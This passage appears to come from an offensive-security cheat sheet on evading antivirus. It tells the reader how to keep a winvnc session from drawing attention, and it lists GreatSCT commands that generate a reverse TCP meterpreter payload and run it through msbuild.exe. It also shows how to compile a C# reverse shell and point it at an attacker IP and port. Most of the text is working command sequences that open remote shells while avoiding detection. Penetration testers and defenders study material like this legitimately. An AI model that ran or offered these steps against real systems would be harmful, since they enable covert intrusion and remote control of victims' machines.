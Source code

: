 **WARNING:** To maintain stealth you must not do a few things

* Don't start `winvnc` if it's already running or you'll trigger a [popup](https://i.imgur.com/1SROTTl.png). check if it's running with `tasklist | findstr winvnc`
* Don't start `winvnc` without `UltraVNC.ini` in the same directory or it will cause [the config window](https://i.imgur.com/rfMQWcf.png) to open
* Don't run `winvnc -h` for help or you'll trigger a [popup](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Download it from: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

Inside GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

Now **start the lister** with `msfconsole -r file.rc` and **execute** the **xml payload** with:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**Current defender will terminate the process very fast.**

### Compiling our own reverse shell

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### First C# Revershell

Compile it with:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

Use it with:

```
back.exe <ATTACKER_IP> <PORT>
```
